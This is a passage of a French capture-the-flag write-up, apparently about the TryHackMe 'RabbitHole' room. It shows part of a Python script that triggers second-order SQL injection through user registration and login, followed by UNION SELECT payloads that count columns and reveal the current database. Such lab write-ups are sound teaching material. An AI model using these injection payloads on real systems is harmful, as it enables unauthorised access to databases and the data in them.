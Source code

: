```python

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 auto_sqli.py <IP_ADDRESS> <PAYLOAD>")
        sys.exit(1)

    ip = sys.argv[1]
    payload = sys.argv[2]

    print(f"[+] Creating user with payload: {payload}")
    if create_user(ip, payload):
        print("[+] User created successfully. Attempting login...")
        response_text = login_user(ip, payload)
        print("[+] Login response:")
        print(response_text)
    else:
        print("[-] Failed to create user. Check the payload or connection.")

if __name__ == "__main__":
    main()
```

Nous utilisons notre script pour trouver le nombre de colonnes escomptées.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1; --'
```

![Second Order SQLi test](/images/THM-RabbitHole/S_SQLi_test.png)

Nous pouvons lire le message d'erreur `SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns`.

Augmentons le nombre de colonnes avec le payload suivant.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, 2; --'
```

![Second Order SQLi test2](/images/THM-RabbitHole/S_SQLi_test2.png)

Ce payload fonctionne, confirmant que **2** colonnes sont nécessaires.

Il serait bon de savoir sur quelle base de données nous travaillons actuellement.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, database(); --'
```

> Si vous remarquez que l'adresse IP est différente, c'est parce que j'avais perdu certaines captures d'écran et j'ai dû recommencer le processus d'exploitation avec une adresse IP différente pour les reprendre.

![Second Order SQLi test2](/images/THM-RabbitHole/current_DB.png)

Nous sommes actuellement dans la base de données `web`, nous allons maintenant énumérer ses tables.
